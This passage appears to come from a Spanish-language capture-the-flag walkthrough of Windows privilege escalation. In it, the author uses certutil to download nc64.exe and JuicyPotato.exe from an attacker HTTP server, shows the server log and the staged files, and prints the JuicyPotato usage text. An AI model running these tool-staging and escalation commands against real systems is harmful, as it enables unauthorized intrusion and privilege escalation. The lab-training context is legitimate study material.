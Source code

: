 Ejecutamos `certutil.exe`

```cmd
certutil.exe -f -urlcache -split http://10.10.16.8/nc64.exe nc64.exe
certutil.exe -f -urlcache -split http://10.10.16.8/nc64.exe nc64.exe
****  Online  ****
  0000  ...
  b0d8
CertUtil: -URLCache command completed successfully.

certutil.exe -f -urlcache -split http://10.10.16.8/JuicyPotato.exe JuicyPotato.exe
certutil.exe -f -urlcache -split http://10.10.16.8/JuicyPotato.exe JuicyPotato.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.

C:\Windows\Temp\Privesc>
```

y recibimos la petición en nuestra maquina

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.11 - - [11/Apr/2023 17:59:47] "GET /nc64.exe HTTP/1.1" 200 -
10.10.10.11 - - [11/Apr/2023 17:59:50] "GET /nc64.exe HTTP/1.1" 200 -
10.10.10.11 - - [11/Apr/2023 18:00:02] "GET /JuicyPotato.exe HTTP/1.1" 200 -
10.10.10.11 - - [11/Apr/2023 18:00:04] "GET /JuicyPotato.exe HTTP/1.1" 200 -
```

Verificamos que los archivos se subieron correctamente.

```cmd
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\Windows\Temp\Privesc

13/04/2023  04:57     <DIR>          .
13/04/2023  04:57     <DIR>          ..
13/04/2023  04:57            347.648 JuicyPotato.exe
13/04/2023  04:57             45.272 nc64.exe
               2 File(s)        392.920 bytes
               2 Dir(s)   1.432.981.504 bytes free

C:\Windows\Temp\Privesc>
```

Como ya tenemos ambos archivos, la idea es ahora que con el `JuicyPotato.exe` podemos inyectar comandos de manera privilegiada.


```cmd
.\JuicyPotato.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```